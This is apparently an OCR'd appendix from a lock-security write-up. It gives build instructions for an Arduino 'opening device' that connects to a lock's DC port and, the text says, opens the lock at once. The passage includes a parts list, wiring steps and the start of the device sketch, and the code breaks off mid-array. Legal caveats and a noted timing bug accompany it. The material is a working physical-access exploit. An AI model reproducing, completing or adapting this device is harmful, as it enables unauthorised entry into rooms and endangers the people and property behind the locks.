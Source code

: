 Appendix A: Opening device
==========================

This appendix details building and programming an opening device based on the Arduino platform.

Caveats
-------

There is a bug with the implementation of this device which prevents it working on some locks.  At the moment this is believed to be a timing bug, which leads to the first bit of each byte being corrupted, but this is not certain.

In addition, possession of this device may be illegal under lock pick laws in certain jurisdictions; consult a lawyer prior to constructing an opening device.  Use of this device to gain access to areas where you would not normally have access may be illegal.  No warranty is given for this device and no liability will be accepted; you're on your own.

Hardware setup
--------------

Required hardware:

- Arduino Mega 128
- 5.6k resistor
- DC (coaxial) barrel connector, 5mm outer diameter, 2.1mm inner diameter

Attach the resistor from 3.3v power on the Arduino to digital IO pin 3.
Attach digital IO pin 3 to the inner contact on the DC connector.
Attach ground from the Arduino to the outer contact on the DC connector.

Sketch
------

Below is the complete Arduino sketch.
When connected to the lock, it will immediately open the lock.

	#define CONSERVATIVE

	int ioPin = 3;
	#define BUFSIZE 200
	unsigned char buf[BUFSIZE];

	#define pullLow() pinMode(ioPin, OUTPUT)
	#define pullHigh() pinMode(ioPin, INPUT)

	unsigned char dbits[] = { 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 1, 0, 1, 0, 0, 0, 1, 1, 1, 1, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 1, 0, 0, 0, 1, 0, 0, 1, 1, 0, 0, 0, 0};

	unsigned char bits[][144] = {
	  {
	    0, 0, 0, 0, 0, 0, 0, 0, 
	    0, 0, 0, 0, 0, 0, 0, 0, 
	    0, 0, 0, 0, 0, 0, 0, 0, 
	    0, 0, 0, 0, 0, 0, 0, 0, 
	    0, 0, 0, 0, 0, 0, 0, 0, 
	    1, 0, 1, 0, 0, 0, 1, 0, 
	    0, 1, 
	    